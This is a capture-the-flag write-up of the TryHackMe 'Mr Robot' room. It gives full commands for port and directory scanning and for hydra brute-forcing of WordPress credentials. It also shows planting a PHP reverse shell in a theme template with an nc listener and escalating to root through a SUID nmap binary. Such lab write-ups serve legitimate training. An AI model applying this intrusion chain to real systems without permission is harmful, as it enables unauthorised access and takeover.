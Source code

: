 # ====================

# Mr Robot CTF WRITE-UP

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

# ====================

![](Images/1.jpeg)

# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HHTP` and `HTTPs` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.

![](Images/2.png)

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```

![](Images/3.png)

Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:

![](Images/4.png)

First we will check for **robots.txt** file and we can see some interesting files:

![](Images/5.png)

File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:

![](Images/6.png)

Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:

![](Images/7.png)

```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D

![](Images/8.png)

Now let's back to log in page, enter **elliot** as username and random password. We get different error message!

![](Images/9.png)

Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)

![](Images/10.png)

Use the credentials to log in to the WordPress site and we are in:

![](Images/11.png)

WordPress is based on php, so we need a php reverse shell to get to the system... The easyest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:

![](Images/12.png)

Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.

![](Images/13.png)

Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thn/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:

![](Images/14.png)

List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.

![](Images/15.png)

We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:

![](Images/16.png)

Now, we can `cat` key-2-of-3.txt file and get the second answer:

![](Images/17.png)

At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...

![](Images/18.png)

We can run NMAP in interactive mod and get the shell:

![](Images/19.png)

And YES, we are root!!! :)

![](Images/20.png)

Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!

![](Images/21.png)

